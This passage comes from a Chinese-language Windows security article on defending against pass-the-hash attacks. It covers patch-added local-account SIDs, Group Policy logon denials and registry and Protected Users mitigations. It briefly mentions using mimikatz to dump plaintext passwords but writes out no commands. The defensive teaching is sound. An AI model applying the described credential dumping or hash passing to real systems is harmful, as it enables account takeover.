

再次使用 mimikatz 抓取密码，如图所示，可以看到，能抓到明文密码了。



#### (3) 引入新的 SID

该补丁引入了以下两个新的 SID：

-  LOCAL_ACCOUNT（S-1-5-113）：所有本地帐户继承此 SID。
-  LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP（S-1-5-114）：所有管理员组的本地帐户继承此 SID。

如图所示，可以看到这两个 SID。



作为网络管理员，可以通过组策略设置“拒绝从网络访问此计算机”和“拒绝通过远程桌面服务登录”这两个安全选项来禁止本地账户通过远程桌面和网络访问计算机。但是域用户不受影响！

如图所示配置，打开组策略，计算机配置——>Windows 设置——>安全设置——本地策略——>用户权限分配，找到“拒绝从网络访问此计算机”和“拒绝通过远程桌面服务登录”这两个选项



如图所示，将本地账户添加到“拒绝从网络访问这台计算机”。



如图所示，将本地账户添加到“拒绝通过远程桌面服务登录”。



现在我们尝试使用本地账户和域账号进行远程桌面连接和远程哈希传递连接测试。

如图所示，可以看到设置了该组策略后，使用本地账号将无法进行远程桌面连接和远程哈希传递攻击连接了。



而域用户则不受此组策略影响，如图所示：



因此，补丁引入的这两个新的 SID 对于本地账号的哈希传递攻击有一定缓解作用，不过需要网络管理员手动配置组策略才能生效。

## PTH 哈希传递攻击防御

从上面的分析我们可以看出，PTH 哈希传递攻击目前并不能完全根除，只能说采取措施来进行防御。总的来说，可以采取以下措施来进行防御：

- 将`KEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken` 值设置为 1，禁止内置的本地管理员 administrator 进行远程哈希传递攻击。
- 监控`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` 值，防止其被修改为 1。
- 通过组策略配置设置“拒绝从网络访问此计算机”和“拒绝通过远程桌面服务登录”这两个安全选项来禁止本地账户通过远程桌面和网络访问计算机。
-  将域内敏感用户加入"Protected Users"组，可以有效阻止敏感用户哈希传递攻击。

通过以上措施，可以阻止本地账户和域内敏感用户的哈希传递攻击。但是域内用户众多，不可能将所有用户都加入"Protected Users"组，因此针对域用户的哈希传递目前还比较困难。